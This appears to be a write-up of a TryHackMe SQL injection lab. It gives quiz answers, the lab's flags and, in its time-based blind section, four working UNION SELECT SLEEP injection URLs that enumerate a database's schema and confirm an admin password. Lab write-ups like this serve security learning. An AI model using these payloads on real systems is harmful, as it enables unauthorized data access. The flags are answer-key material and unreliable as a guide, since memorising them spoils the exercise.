# Sql Injection



## Brief

| Questions | Answers |
|-----------|---------|
| What does the SQL stand for? | Structured Query Language |

## What is a Database ? 

| Questions | Answers |
|-----------|---------|
| What is the acronym for the software that controls a database ? | DBMS |
| What is the name of the grid-like structure which holds the data ? | table |

## What is SQL ?

| Questions | Answers |
|-----------|---------|
| What SQL statement is used to retrieve data ? | SELECT |
| What SQL clause can be used to retrieve data from multiple tables ? | UNION |
| What SQL statement is used to add data? | INSERT |

## What is SQL Injection ? 

| Questions | Answers |
|-----------|---------|
| What character signifies the end of an SQL query? | ; |

## In-Band SQLi

| Questions | Answers |
|-----------|---------|
| What is the flag after completing level 1 ? | THM{SQL_INJECTION_3840} |


## Blink SQLi - Authentication Bypass

| Questions | Answers |
|-----------|---------|
| What is the flag after competing level two ? (and moving to level 3) | THM{SQL_INJECTION_9581} |

## Blind SQLi - Boolean Based 

| Questions | Answers |
|-----------|---------|
| What is the flag after completing level three ? | THM{SQL_INJECTION_1093} |


## Blind SQLi - Time Based
database name : `sqli_four`
link to exploit 
```
https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(2),2 where database() like 'sqli_four%';--
```
table name : `users`
link to exploit 
```
https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(2),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'users';--
```

columns name : `username` and `password`
link to exploit
```
https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(2),2 FROM information_schema.columns WHERE table_schema = 'sqli_four' and table_name='users' and column_name='username';--
```
username : `admin`
password : `4961`

link to exploit 
```
https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(2),2 from users where username='admin' and password='4961';--
```
| Questions | Answers |
|-----------|---------|
| What is the final flag after completing level four ? | THM{SQL_INJECTION_MASTER} |

## Out-of-Band SQLi

| Questions | Answers |
|-----------|---------|
| Name a protocol beginning with D that can be used to exfiltrate data from a database. | DNS |

## Remediation

| Questions | Answers |
|-----------|---------|
| Name a method of protecting yourself from an SQL injection. | Prepared Statement |


